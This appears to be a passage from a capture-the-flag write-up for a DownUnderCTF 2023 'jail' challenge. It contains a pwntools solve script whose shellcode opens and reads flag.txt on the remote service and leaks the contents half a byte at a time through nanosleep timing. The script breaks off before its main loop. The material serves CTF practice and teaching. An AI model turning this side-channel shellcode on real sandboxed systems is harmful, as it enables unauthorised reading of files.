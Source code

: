 `time_t` is alias of `long`, so the struct take `0x10` byte. 

Counting one byte at a time is time consumming, so I count half a byte at a time. 

`solve.py:`

```python
#!/usr/bin/env python3
from pwn import *
import time

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'amd64'

host, port = 'nc 2023.ductf.dev 30010'.split()[1:]
port = int(port)

elf = ELF('./jail')

script = '''
breakrva 0x000000000001377
c
'''

def exp(offset):
    p = remote(host, port)
    # p = process(elf.path)
    # p = gdb.debug(elf.path, gdbscript=script)
    
    shr = 0
    if offset%2 == 0:
        shr = 4
    offset //= 2
    
    sc = shellcraft.openat(constants.AT_FDCWD, './flag.txt', 0)
    # sc = shellcraft.openat(0, '/chal/flag.txt', 0)
    sc += shellcraft.read('rax', 'rsp', 0x100)
    sc += f"""
        push 0
        push 0
        mov al, BYTE PTR [rsi+{offset}]    
        shr al, {shr}
        and al, 0xf
        mov [rsp], al
    """
    sc += shellcraft.nanosleep('rsp', 0)
    sc += shellcraft.exit(1)
    sc = asm(sc)

    # log.info("len: " + hex(len(sc)))
    start = time.time()
    p.sendlineafter(b'> ', sc)
    while 1: 
        try: 
            p.sendline()
            sleep(0.2)
        except:
            end = time.time()
            log.info(f"attempt {offset}")
            log.info("time: " + str(end-start))
            log.info("time: " + str(int(end-start)))
            return int(end-start)

flag = ''
off = 0
```